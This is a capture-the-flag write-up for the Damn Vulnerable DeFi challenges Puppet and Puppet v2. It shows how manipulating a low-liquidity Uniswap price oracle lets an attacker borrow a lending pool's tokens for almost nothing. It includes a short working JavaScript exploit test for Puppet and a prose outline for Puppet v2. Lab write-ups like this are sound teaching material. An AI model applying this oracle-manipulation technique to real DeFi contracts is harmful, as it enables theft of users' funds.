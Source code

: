 
### Challenge category => so users know the chall’s field
### Challenge points => so users know the chall’s difficulty

In this challenge, we must steal all tokens from the lending pool. Also the challenge provide UniswapV1 as oracle. However, UniswapV1 has only 10 ETH and 10 DVT, which means that the exchange rate can be easily changed. Since `calculateDepositRequired()` function in `borrow()` function is using UniswapV1, we can manipulate token price by manipulating UniswapV1. 

First we need to approve UniswapV1 to utilze our token, and exchange all DVT token with just 1 ether. Then it will drop the required deposit amount for borrow function to very low like 0.00019... which means we can borrow 1 DVT with 0.00019 ETH. The implementation for what I explained is below.


```javascript
    it('Exploit', async function () {
        const deadline = (await ethers.provider.getBlock("latest")).timestamp * 2;
        await this.token.connect(attacker).approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);
        await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(ethers.utils.parseEther('999'), '1', deadline);
        
        const value = {value: ethers.utils.parseEther("24.0")}        
        const attackValue = ethers.utils.parseEther("100000")
        this.lendingPool.connect(attacker).borrow(attackValue, value);
    });
```


- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Puppet v2
### Challenge description:
    The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!

    Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.

    You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)


### Challenge category => so users know the chall’s field
### Challenge points => so users know the chall’s difficulty

In this challenge, we must steal million DVT from the pool. This challenge is very similar to previous challenge, puppet. The difference is that puppet v2 is using Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. However, the oracle still can be manipulated. First we can swap 10000 DVT token to ETH using `swapExactTokensForETH()` function from Uniswap Router. Then we just need to calculate the deposit amount to borrow all DVT from pool. Since we use WeTH to borrow DVT, deposit calculated amount to WETH. Then borrow DVT balance of pool.
